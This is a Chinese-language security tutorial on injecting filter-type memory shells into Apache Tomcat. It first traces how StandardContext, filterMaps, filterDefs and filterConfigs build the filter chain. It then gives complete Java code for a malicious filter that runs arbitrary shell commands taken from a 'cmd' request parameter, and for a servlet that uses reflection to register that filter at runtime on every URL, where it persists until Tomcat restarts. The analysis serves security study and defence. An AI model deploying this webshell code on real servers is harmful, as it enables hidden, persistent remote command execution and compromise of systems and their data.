# Java Security Of Tomcat Filter

## Preparation

### ServletContext

​	`Servlet`规范中规定了的一个`ServletContext`接口，其提供了`Web`应用所有`Servlet`的视图，通过它可以对某个`Web`应用的各种资源和功能进行访问。`Web`容器在启动时，它会为每个`Web`应用程序都创建一个对应的`ServletContext`，它代表当前`Web`应用，并且它被所有客户端共享。



​	动态注册`filter`时需要添加`filter`相关的函数，而`ServletContext`恰好可以满足这个条件。`javax.servlet.servletContext`中存在`addFilter`、`addServlet`和`addListener`方法，即对应实现添加`Filter`、`Servlet`和`Listener`。

​	获取`ServletContext`的方法有：

- `this.getServletContext()`

- `this.getServletConfig().getServletContext();`



​	可以看到，获取到的实际上是一个`ApplicationContextFacade`对象，且该对象是对`ApplicationContext`实例的封装。

### ApplicationContext

​	对应`Tomcat`容器，为了满足`Servlet`规范，必须包含一个`ServletContext`接口的实现。`Tomcat`的`Context`容器中都会包含一个`ApplicationContext`。

​	在`Tomcat`中，`org.apache.catalina.core.ApplicationContext`中包含一个`ServletContext`接口的实现，所以需要引入`org.apache.catalina.core.ApplicationContext`这个库，用它获取上下文`StandardContext`。

### StandardContext[](https://www.cnblogs.com/nice0e3/p/14622879.html#standardcontext)

​	`Catalina`主要包括`Connector`和`Container`，`StandardContext`就是一个`Container`，它主要负责对进入的用户请求进行处理。实际上，并不是由`StandardContext`来进行处理，而是交给内部的`valve`进行处理。

​	一个`Context`表示了一个外部应用，它包含多个`Wrapper`，每个`Wrapper`表示一个`Servlet`定义。（`Tomcat`默认的`Service`服务是`Catalina`）

###  Filter Related Variables

|            名称            |                             说明                             |
| :------------------------: | :----------------------------------------------------------: |
|     `filterMaps` 变量      | 存放`FilterMap`的数组，在`FilterMap`中主要存放了`FilterName`和对应的`URLPattern` |
|     `filterDefs` 变量      | 存放`FilterDef`的数组，`FilterDef`中存储着我们过滤器名，过滤器实例等基本信息 |
|    `filterConfigs` 变量    | 存放`filterConfig`的数组，在`FilterConfig`中主要存放`FilterDef`和`Filter`对象等信息 |
|     `FilterChain` 变量     |  过滤器链，该对象上的`doFilter`方法能依次调用链上的`Filter`  |
|  `ApplicationFilterChain`  |                         调用过滤器链                         |
| `ApplicationFilterConfig`  |                          获取过滤器                          |
| `ApplicationFilterFactory` |                         组装过滤器链                         |
|     `StandardContext`      | `Context`接口的标准实现类，一个`Context`代表一个`Web`应用，其下可以包含多个`Wrapper` |
|   `StandardWrapperValve`   |    `Wrapper`的标准实现类，一个`Wrapper`代表一个`Servlet`     |

## Process Analysis

- 环境搭建

```java
package servlet;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;

@WebServlet(name = "HelloServlet", value = "/HelloServlet")
public class HelloServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        response.setContentType("text/html");
        PrintWriter writer = response.getWriter();
        writer.println("This is HelloServlet Page.");
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
    }
}
```

```java
package filter;

import javax.servlet.*;
import javax.servlet.annotation.*;
import java.io.IOException;

@WebFilter(filterName = "HelloFilter", urlPatterns = "/HelloServlet")
public class HelloFilter implements Filter {
    public void init(FilterConfig config) {
        System.out.println("Filter init...");
    }

    public void destroy() {
        System.out.println("Filter Destroy...");
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws ServletException, IOException {
        System.out.println("Filter Start...");
        chain.doFilter(request, response);
    }
}
```



​	在`doFilter`中下个断点，堆栈信息如下：

```java
doFilter:19, HelloFilter (filter)
internalDoFilter:181, ApplicationFilterChain (org.apache.catalina.core)
doFilter:156, ApplicationFilterChain (org.apache.catalina.core)
invoke:167, StandardWrapperValve (org.apache.catalina.core)
invoke:90, StandardContextValve (org.apache.catalina.core)
invoke:494, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:130, StandardHostValve (org.apache.catalina.core)
invoke:93, ErrorReportValve (org.apache.catalina.valves)
invoke:682, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:74, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:617, Http11Processor (org.apache.coyote.http11)
process:63, AbstractProcessorLight (org.apache.coyote)
process:932, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1695, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1191, ThreadPoolExecutor (org.apache.tomcat.util.threads)
run:659, ThreadPoolExecutor$Worker (org.apache.tomcat.util.threads)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang)
```

​	在堆栈信息中可以看到`Container`容器中四种子容器的调用，`StandardEngineValve`->`StandardHostValve`->`StandardContextValve`->`StandardWrapperValve`。往前回溯一下，跟进`org.apache.catalina.core.StandardWrapperValve#invoke`，可以看到其创建了一个`FilterChain`，接着调用它的`doFilter`方法。



​	这里跟进一下`org.apache.catalina.core.ApplicationFilterFactory#createFilterChain`方法，看看是如何创建`filterChain`的。首先对传入的`ServletRequest`对象进行判断，若为`Request`实例，则进一步从其中获取`filterChain`，若`filterChain`不存在，则创建一个并设置到`Request`对象内。

​	接着从`wrapper`中获取`StandardContext`对象，调用`org.apache.catalina.core.StandardContext#findFilterMaps`方法获取`filterMaps`。

​	当获取到的`filterMaps`不为空时，对`filterMaps`进行遍历，调用`getFilterName`方法来获取`filterName`，把获取到的`filterName`传入`org.apache.catalina.core.StandardContext#findFilterConfig`方法中来获取`filterConfig`，并将获取到的`filterConfig`添加进`filterChain`中。

```java
public static ApplicationFilterChain createFilterChain(ServletRequest request,
                                                       Wrapper wrapper, Servlet servlet) {

  // If there is no servlet to execute, return null
  if (servlet == null)
    return null;

  // Create and initialize a filter chain object
  ApplicationFilterChain filterChain = null;
  if (request instanceof Request) {
    Request req = (Request) request;
    if (Globals.IS_SECURITY_ENABLED) {
      // Security: Do not recycle
      filterChain = new ApplicationFilterChain();
    } else {
      filterChain = (ApplicationFilterChain) req.getFilterChain();
      if (filterChain == null) {
        filterChain = new ApplicationFilterChain();
        req.setFilterChain(filterChain);
      }
    }
  } else {
    // Request dispatcher in use
    filterChain = new ApplicationFilterChain();
  }

  filterChain.setServlet(servlet);
  filterChain.setServletSupportsAsync(wrapper.isAsyncSupported());

  // Acquire the filter mappings for this Context
  StandardContext context = (StandardContext) wrapper.getParent();
  FilterMap filterMaps[] = context.findFilterMaps();

  // If there are no filter mappings, we are done
  if ((filterMaps == null) || (filterMaps.length == 0))
    return (filterChain);

  // Acquire the information we will need to match filter mappings
  DispatcherType dispatcher =
    (DispatcherType) request.getAttribute(Globals.DISPATCHER_TYPE_ATTR);

  String requestPath = null;
  Object attribute = request.getAttribute(Globals.DISPATCHER_REQUEST_PATH_ATTR);
  if (attribute != null){
    requestPath = attribute.toString();
  }

  String servletName = wrapper.getName();

  // Add the relevant path-mapped filters to this filter chain
  for (int i = 0; i < filterMaps.length; i++) {
    if (!matchDispatcher(filterMaps[i] ,dispatcher)) {
      continue;
    }
    if (!matchFiltersURL(filterMaps[i], requestPath))
      continue;
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
      context.findFilterConfig(filterMaps[i].getFilterName());
    if (filterConfig == null) {
      // FIXME - log configuration problem
      continue;
    }
    filterChain.addFilter(filterConfig);
  }

  // Add filters that match on servlet name second
  for (int i = 0; i < filterMaps.length; i++) {
    if (!matchDispatcher(filterMaps[i] ,dispatcher)) {
      continue;
    }
    if (!matchFiltersServlet(filterMaps[i], servletName))
      continue;
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
      context.findFilterConfig(filterMaps[i].getFilterName());
    if (filterConfig == null) {
      // FIXME - log configuration problem
      continue;
    }
    filterChain.addFilter(filterConfig);
  }

  // Return the completed filter chain
  return filterChain;
}
```

​	继续前面的堆栈分析，跟进`org.apache.catalina.core.ApplicationFilterChain#doFilter`方法，其先检查`JVM`是否开启安全模式，由于这里为`false`，因此会进入`else`语句中调用`internalDoFilter`方法。



​	跟进`org.apache.catalina.core.ApplicationFilterChain#internalDoFilter`方法，先从`this,filters`数组中依次取出`filterConfig`对象，接着调用`org.apache.catalina.core.ApplicationFilterConfig#getFilter`方法获取`Filter`实例，最后调用其`doFilter`方法。



​	上文中分析了创建`filterChain`时主要依赖于`filterMaps`，接下来看看如何向`filterMaps`中添加恶意的`filterMap`。在`org.apache.catalina.core.StandardContext`中有两个方法可以向`filterMaps`中添加`filterMap`，分别是`addFilterMap`方法和`addFilterMapBefore`方法。



​	跟进`org.apache.catalina.core.StandardContext#validateFilterMap`方法，该方法会对传入的`filterMap`进行判断，若`this.findFilterDef == null`时则会抛出异常，因此在构造时，需要注意构造符合要求的`filterDef`。



​	上文中提到的`filterMap`、`filterDef`都与`filterConfig`相关，而`org.apache.catalina.core.StandardContext`中与`filterConfig`相关的操作只有`filterStart`和`filterStop`方法，因此在应用运行时，只能采用反射的方式来动态修改`filterConfigs`的值。

## Achievement

### Idea

​	动态注入`Filter`内存马的具体思路如下:

- 调用`ApplicationContext`的`addFilter`方法创建`filterDefs`对象，需要反射修改应用程序的运行状态，加完之后再改回来；
- 调用`StandardContext`的`filterStart`方法生成`filterConfigs`；
- 调用`ApplicationFilterRegistration`的`addMappingForUrlPatterns`生成`filterMaps`。

​	同时，为了兼容某些特殊情况比如`Shiro`，需要将加入的`filter`放在`filterMaps`的第一位，可以自行修改`HashMap`中的顺序，也可以在调用`StandardContext`的`addFilterMapBefore`时直接加在`filterMaps`的第一位。

### Demo

​	先简单实现一个恶意的`Filter`：

```java
package filter;

import javax.servlet.*;
import javax.servlet.annotation.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.util.Scanner;

@WebFilter(filterName = "EvilFilter", urlPatterns = "/*")
public class EvilFilter implements Filter {
    public void init(FilterConfig config) throws ServletException {
    }

    public void destroy() {
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws ServletException, IOException {
        HttpServletRequest req = (HttpServletRequest) request;
        HttpServletResponse resp = (HttpServletResponse) response;

        if (req.getParameter("cmd") != null) {
            boolean isLinux = true;
            String osProperty = System.getProperty("os.name");
            if (osProperty != null && osProperty.toLowerCase().contains("win")) {
                isLinux = false;
            }

            String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
            InputStream inputStream = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
            String output = scanner.hasNext() ? scanner.next() : "";
            resp.getWriter().write(output);
            resp.getWriter().flush();
        }

        chain.doFilter(request, response);
    }
}
```



### Dynamic Registration

​	根据上文的分析，动态注入`filter`型内存马需要经过以下步骤：

- 创建恶意`filter`
- 用`filterDef`对`filter`进行封装
- 将`filterDef`添加到`filterDefs`跟`filterConfigs`中
- 创建一个新的`filterMap`将`URL`跟`filter`进行绑定，并添加到`filterMaps`中

​	每次请求`createFilterChain`都会依据此动态生成一个过滤链，而`StandardContext`又会一直保留到`Tomcat`生命周期结束，因此内存马便可以一直驻留下去，直到`Tomcat`重启后失效。

#### Servlet

```java
package servlet;

import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;
import java.util.Scanner;

@WebServlet(name = "EvilServlet", value = "/EvilServlet")
public class EvilServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            // 通过反射获取standardContext
            ServletContext servletContext = request.getSession().getServletContext();
            Field context = servletContext.getClass().getDeclaredField("context");
            context.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
            Field context1 = applicationContext.getClass().getDeclaredField("context");
            context1.setAccessible(true);
            StandardContext standardContext = (StandardContext) context1.get(applicationContext);

            String filterName = "h3rmesk1t";
            Field filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
            filterConfigs.setAccessible(true);
            Map filterConfigsMap = (Map) filterConfigs.get(standardContext);

            // 设置恶意的Filter
            if (filterConfigsMap.get(filterName) == null) {
                Filter filter = new Filter() {
                    @Override
                    public void init(FilterConfig config) {
                    }

                    @Override
                    public void destroy() {
                    }

                    @Override
                    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws ServletException, IOException {
                        HttpServletRequest httpServletRequest = (HttpServletRequest) request;
                        HttpServletResponse httpServletResponse = (HttpServletResponse) response;

                        if (httpServletRequest.getParameter("cmd") != null) {
                            boolean isLinux = true;
                            String osType = System.getProperty("os.name");
                            if (osType != null && osType.toLowerCase().contains("win")) {
                                isLinux = false;
                            }

                            String[] command = isLinux ? new String[]{"sh", "-c", httpServletRequest.getParameter("cmd")} : new String[]{"cmd.exe", "/c", httpServletRequest.getParameter("cmd")};
                            InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                            Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                            String output = scanner.hasNext() ? scanner.next() : "";
                            httpServletResponse.getWriter().write(output);
                            httpServletResponse.getWriter().flush();
                            return;
                        }
                        chain.doFilter(request, response);
                    }
                };

                // 反射获取FilterDef, 设置filter名等参数, 调用addFilterDef添加FilterDef
                Class<?> filterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
                Constructor<?> filterDefDeclaredConstructor = filterDef.getDeclaredConstructor();
                filterDefDeclaredConstructor.setAccessible(true);
                FilterDef filterDef1 = (FilterDef) filterDefDeclaredConstructor.newInstance();
                filterDef1.setFilter(filter);
                filterDef1.setFilterName(filterName);
                filterDef1.setFilterClass(filter.getClass().getName());
                standardContext.addFilterDef(filterDef1);

                // 反射获取FilterMap并设置拦截路径, 调用addFilterMapBefore添加FilterMap
                Class<?> filterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                Constructor<?> filterMapDeclaredConstructor = filterMap.getDeclaredConstructor();
                filterMapDeclaredConstructor.setAccessible(true);
                FilterMap filterMap1 = (FilterMap) filterMapDeclaredConstructor.newInstance();
                filterMap1.addURLPattern("/*");
                filterMap1.setFilterName(filterName);
                filterMap1.setDispatcher(DispatcherType.REQUEST.name());
                standardContext.addFilterMapBefore(filterMap1);

                // 反射获取ApplicationFilterConfig
                Class<?> applicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
                Constructor<?> applicationFilterConfigDeclaredConstructor = applicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
                applicationFilterConfigDeclaredConstructor.setAccessible(true);
                ApplicationFilterConfig applicationFilterConfig1 = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef1);

                // 向从StandardContext获取的FilterConfigs中添加恶意的FilterConfig
                filterConfigsMap.put(filterName, applicationFilterConfig1);
                response.getWriter().write("Filter Inject Successfully...");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

